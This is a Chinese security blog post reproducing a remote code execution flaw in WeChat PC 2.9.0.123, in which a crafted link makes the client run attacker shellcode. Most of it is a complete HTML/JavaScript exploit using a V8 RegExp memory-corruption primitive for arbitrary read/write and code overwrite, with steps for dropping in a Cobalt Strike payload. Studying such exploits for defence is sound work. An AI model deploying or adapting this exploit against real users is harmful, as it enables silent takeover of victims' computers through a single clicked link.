





# 微信RCE 复现

[↓↓↓](javascript:)  
  
锋刃科技  
  
[↑↑↑](javascript:)

*2021-04-23 12:59*

漏洞概述

攻击者只需要通过微信发送一个特制web链接，用户一旦点击链接，微信PC(windows)版进程wechatweb.exe会加载shellcode执行，整个过程无文件落地，无新进程产生，攻击者可以直接获取目标机器权限。

环境搭建

```plain
微信PC版本 2.9.0.123
```

  



漏洞复现

生成payload




将’\\’批量替换成’,0′

再放置shellcode





  

把链接通过微信发送，然后我们点击链接，cs上线成功。




源码

```plain
<html>
<head>
<metahttp-equiv="Content-Type"content="text/html;charset=utf-8">
</head>
<h1>test</h1>
<script>
ENABLE_LOG = true;
IN_WORKER = true;
// run calc and hang in a loop
var shellcode = [];//shellcode替换成自己的 注意是x86的

function print(data) {
}
var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});
for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}
var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}
function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}
function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }
    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }
    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }
    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }
    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}
function trigger() {
    var oob = oobAccess();
    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));
    var kCodeInsOffset = 0x1b;
    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));
    oob.setBytes(code_addr, shellcode);
    target_function(0);
}
try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
</script>
</html>
```

   

修复建议

官方下载链接：

```plain
https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe
```
